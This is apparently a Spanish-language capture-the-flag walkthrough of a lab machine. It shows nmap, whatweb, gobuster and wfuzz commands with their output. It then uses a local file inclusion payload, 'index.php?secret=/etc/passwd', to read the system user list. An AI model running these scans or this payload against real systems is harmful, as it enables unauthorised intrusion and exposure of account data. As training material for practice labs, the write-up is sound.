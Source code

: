 ## 1. Reconocimiento de Puertos con Nmap

Un escaneo con `nmap` muestra los puertos 22 (SSH) y 80 (HTTP) abiertos, con Apache httpd 2.4.58 y OpenSSH 9.6p1.

```bash
nmap -sV -O <IP_DEL_OBJETIVO>
```

Esto sugiere que la aplicación web en el puerto 80 será el punto de entrada principal.

## 2. Enumeración Web

Al acceder a la página web, se observa un mensaje de "By TLuisillo_o" y un "[!] ERROR [!]". Esto indica que la página podría requerir un parámetro.

Enumerar las versiones del servidor web para buscar posibles exploits

**Comando**
```bash
whatweb http://172.17.0.2
```
**Salida**
```
http://172.17.0.2 [200 OK] Apache[2.4.58], Bootstrap,Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Script, Title[4You]
```

### 2.1. Búsqueda de Directorios y Fuzzing de Parámetros

Utilizamos `gobuster` para encontrar directorios (`/assets/`, `/index.php/`). El archivo `index.php` es interesante porque, al ser PHP, puede aceptar parámetros.
```bash
gobuster dir -u http://172.17.0.2 -w /home/eduard/WordList/directories.txt 
```

Para identificar un parámetro oculto, usamos `wfuzz`:

```bash
wfuzz -c --hl=62 -w /path/to/wordlist/big.txt 'http://<IP_DEL_OBJETIVO>/index.php?FUZZ=/etc/passwd'
```

con ?FUZZ=/etc/passwd es la única forma con la que el servidor responde distinto
**salida**
```bash
=====================================================================  
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================  
  
000002402:   200        88 L     199 W      3870 Ch     "secret"
```
El fuzzing revela el parámetro `secret`. Al acceder a `http://<IP_DEL_OBJETIVO>/index.php?secret=/etc/passwd`, se muestra el contenido del archivo `/etc/passwd`, confirmando una vulnerabilidad de **LFI**. Existen los usuarios `vaxei` y `luisillo`.


al buscar en el navegador 
http://172.17.0.2/index.php?secret=/etc/passwd
en vez de salir un mensaje de error, sale mucha información 
Este contenido es la salida del archivo `/etc/passwd`, un archivo estándar en sistemas Linux que contiene **información sobre las cuentas de usuario**.
- root
- ubuntu
- vaxei
- luisillo
